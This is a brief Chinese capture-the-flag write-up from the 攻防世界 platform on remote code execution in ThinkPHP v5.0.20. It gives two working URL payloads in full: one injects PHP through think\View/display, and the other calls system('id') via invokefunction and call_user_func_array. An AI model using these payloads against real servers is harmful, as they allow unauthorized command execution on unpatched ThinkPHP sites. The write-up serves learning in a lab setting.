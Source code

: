 ### ThinkPHP v5.0.20 RCE

话不多说，直接上题（攻防世界）

![](https://pic1.imgdb.cn/item/6808b52158cb8da5c8c60cdf.png)

打开页面提示了 ThinkPHP v5

![](https://pic1.imgdb.cn/item/6808b61358cb8da5c8c60fbf.png)

试了下 NDay 的 payload 报错，并给出了具体版本

```shell
/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1
```

![](https://pic1.imgdb.cn/item/6808b5ef58cb8da5c8c60f24.png)

有了具体的版本号就好搞了

```shell
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

![](https://pic1.imgdb.cn/item/6808b69558cb8da5c8c611f5.png)